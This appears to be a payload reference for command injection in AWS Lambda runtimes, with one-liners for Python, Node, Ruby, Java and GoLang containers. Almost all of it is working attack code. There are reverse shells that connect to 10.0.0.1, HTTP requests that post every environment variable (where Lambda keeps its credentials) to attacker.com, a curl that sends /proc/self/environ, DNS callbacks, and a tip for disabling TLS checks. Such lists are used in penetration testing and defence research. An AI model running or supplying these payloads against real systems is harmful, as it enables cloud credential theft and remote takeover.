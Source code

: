 # Lambda

AWS Lambda functions are ran in a limited container with native libraries. This listing provides payloads that were identified to work in each function's runtime to demonstrate command injection. None of the payloads should rely on additional Lambda layers or 3rd party packages. This should result in generic payloads that can be used in each of the common runtime environments.

## Generic

Bash Reverse Shell
```
bash -i >& /dev/tcp/10.0.0.1/80 0>&1
```

## Python

### DNS

```
python3 -c 'import socket;socket.gethostbyname("attacker.com")'
```

### OOB HTTP Request

```
python3 -c 'import os,urllib3;h=urllib3.PoolManager();h.request("POST","https://attacker.com/data",fields={"q":str(os.environ)})'
```

### Reverse Shell
[Credit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```
python3 -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

## Node

### DNS

```
node -e 'var dns=require("dns");dns.lookup("attacker.com",()=>({}))'
```

### OOB HTTP Request

```
node -e 'fetch("https://attacker.com/data",{method:"POST",body:JSON.stringify(process.env)});'
```

### Reverse Shell

```
node --input-type=module -e 'import "net";import * as cp from "child_process";var sh = cp.spawn("/bin/sh",[]);var client = new net.Socket();client.connect(80,"10.0.0.1",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});'
```

## Ruby

### DNS

```
ruby -r resolv -e 'Resolv.getaddress "attacker.com"'
```

### OOB HTTP Request

```
ruby -ruri -r 'net/http' -e 'Net::HTTP.post_form(URI("https://attacker.com"),ENV.to_h)'
```

If there is a TLS verification issue, verification can be disabled:

```
ruby -r openssl -r uri -r 'net/http' -e 'OpenSSL::SSL::VERIFY_PEER = OpenSSL::SSL::VERIFY_NONE; Net::HTTP.post_form(URI("https://attacker.com"),ENV.to_h)'
```

### Reverse Shell
[Credit](https://gist.github.com/xfgusta/cfc8b4283fcfeabbfff3437ef6329916)

```
ruby -rsocket -e'Process.wait spawn("sh",[0,1,2]=>TCPSocket.new("10.0.0.1",80))'
```

## Java

### DNS

```
printf 'InetAddress.getByName("attacker.com")\n/exit\n' | jshell
```

### OOB HTTP Request

```
printf 'java.net.http.HttpClient client = java.net.http.HttpClient.newBuilder().build();java.net.http.HttpRequest request = java.net.http.HttpRequest.newBuilder().POST(java.net.http.HttpRequest.BodyPublishers.ofString(System.getenv().toString())).uri(java.net.URI.create("https://attacker.com")).build();client.send(request, java.net.http.HttpResponse.BodyHandlers.ofString());\n/exit\n' | jshell
```

### Reverse Shell
[Credit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#java-alternative-1)

```
printf 'String host="10.0.0.1";int port=80;String cmd="/bin/sh";Process p=new java.lang.ProcessBuilder(cmd).redirectErrorStream(true).start();java.net.Socket s=new java.net.Socket(host,port);java.io.InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();java.io.OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();java.lang.Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();\n/exit\n' | jshell
```

## GoLang

Python3 and perl interpreters exist in the GoLang Lambda environment, as such payloads can be used from these languages against GoLang containers.

### DNS

```
perl -e 'use Socket;gethostbyname("attacker.com");'
```

### OOB HTTP Request

Curl exists on the GoLang container, but not other containers.

```
/usr/bin/curl -X POST https://attacker.com -d @/proc/self/environ
```

### Reverse Shell
[Credit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl)

```
perl -e 'use Socket;$i="10.0.0.1";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
